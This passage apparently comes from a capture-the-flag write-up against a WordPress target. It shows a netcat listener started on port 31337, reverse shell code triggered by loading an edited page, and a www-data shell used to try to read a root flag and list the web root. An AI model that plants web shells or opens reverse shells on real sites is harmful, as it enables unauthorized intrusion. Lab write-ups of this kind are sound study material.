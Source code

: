 ![screenshot3.png](screenshot3.png)

Before we click on "Update File", launch a command line window and start listening for the connection.

	$ nc -lvp 31337

Now click on "Update File". **Load the home page in another tab to execute the reverse shell code**.

Listen using netcat at the same time, we see we received a connnection.

	Listening on [0.0.0.0] (family 0, port 31337)
	ls
	Connection from 172.30.0.3 35690 received!
	/bin/sh: 0: can't access tty; job control turned off
	$ whoami
	www-data


Unfortunately, we have no root access. And there's no indication that we can do a root escalation...

	$ cat /root/flag.txt
	cat: /root/flag.txt: Permission denied

Looking around, we see a note.

	$ ls
	index.php
	license.txt
	note.txt
	readme.html
	wp-activate.php
	wp-admin
	wp-blog-header.php
	wp-comments-post.php
	wp-config.php
	wp-content
	wp-cron.php
	wp-includes
	wp-links-opml.php
	wp-load.php
	wp-login.php